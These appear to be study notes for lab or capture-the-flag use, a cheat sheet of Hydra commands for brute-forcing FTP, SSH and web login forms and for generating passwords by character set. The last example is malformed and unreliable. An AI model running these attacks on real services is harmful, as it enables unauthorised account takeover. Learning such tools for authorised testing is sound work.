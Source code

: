 ## for FTP
* `hydra -l user -P passlist.txt ftp://MACHINE_IP`
---

## for ssh
* `hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh`
> -t 4 :--- 4 threads
---

## for POST-Form

```
sudo hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"
```





> path :-- web path to login form 

**example** :---

```
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

>F=incorrect :--   value when login failed
---
## without passwordlist bruteforce
`hydra -x `
ex:--
```
hydra -m 0 -a 0 -l user -x 6:6:a site.com http-get-form "/login:username,passowrd:F"
```
> here `-x 6:6:a` 6:6 means size for password , a means use small aplahbets 
```
-x 6:6:a
// for lowercase 
-x 6:6:1 
// for numbers
-x 6:6:A 
//for upper case
-x 6:6:a@%
// add custom 
```
> see more in help
> 